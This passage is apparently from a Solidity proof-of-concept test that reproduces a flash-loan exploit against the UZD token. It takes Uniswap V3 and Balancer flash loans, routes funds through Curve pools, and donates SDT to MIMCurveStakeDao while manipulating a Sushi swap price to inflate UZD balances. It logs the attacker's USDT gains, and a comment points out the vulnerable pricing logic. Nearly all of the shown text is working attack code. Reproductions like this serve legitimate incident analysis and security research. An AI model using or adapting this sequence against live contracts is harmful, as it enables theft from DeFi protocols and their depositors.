 ``` c

        emit log_named_decimal_uint(
            "Attacker USDT balance after exploit", USDT.balanceOf(address(this)), USDT.decimals()
        );
    }

    function uniswapV3FlashCallback(uint256 amount0, uint256 amount1, bytes calldata data) external {
        BalancerFlashLoan();

        uint256 amount = abi.decode(data, (uint256));
        TransferHelper.safeTransfer(address(USDT), address(USDC_USDT_Pair), amount1 + amount);
    }

    function BalancerFlashLoan() internal {
        address[] memory tokens = new address[](2);
        tokens[0] = address(USDC);
        tokens[1] = address(WETH);
        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 7_000_000 * 1e6;
        amounts[1] = 10_011 ether;
        bytes memory userData = "";
        Balancer.flashLoan(address(this), tokens, amounts, userData);
    }

    // balancer flashloan callback
    function receiveFlashLoan(
        address[] memory tokens,
        uint256[] memory amounts,
        uint256[] memory feeAmounts,
        bytes memory userData
    ) external {
        apporveAll();

        uint256[2] memory amount;
        amount[0] = 0;
        amount[1] = 5_750_000 * 1e6;
        uint256 crvFRAXBalance = FRAX_USDC_POOL.add_liquidity(amount, 0); // mint crvFRAX

        UZD_crvFRAX_POOL.exchange(1, 0, crvFRAXBalance, 0, address(this)); // swap crvFRAX to UZD

        crvUSD_USDC_POOL.exchange(0, 1, 1_250_000 * 1e6, 0, address(this)); // swap USDC to crvUSD

        crvUSD_UZD_POOL.exchange(1, 0, crvUSD.balanceOf(address(this)), 0, address(this)); // swap crvUSD to UZD

        ETH_SDT_POOL.exchange(0, 1, 11 ether, 0, false, address(this)); // swap WETH to SDT

        // @Vulnerability Code:
        // UZD balanceOf return value is manipulated by the following values
        // uint256 amountIn = sdtEarned + _config.sdt.balanceOf(address(this)); -> get SDT amount in MIMCurveStakeDao
        // uint256 sdtEarningsInFeeToken = priceTokenByExchange(amountIn, _config.sdtToFeeTokenPath); -> sushi router.getAmountsOut(amountIn, exchangePath); path: SDT -> WETH -> USDT
        emit log_named_decimal_uint(
            "Before donation and reserve manipulation, UZD balance", UZD.balanceOf(address(this)), WETH.decimals()
        );
        SDT.transfer(MIMCurveStakeDao, SDT.balanceOf(address(this))); // donate SDT to MIMCurveStakeDao, inflate UZD balance

        swapToken1Totoken2(WETH, SDT, 10_000 ether); // swap WETH to SDT by sushi router
```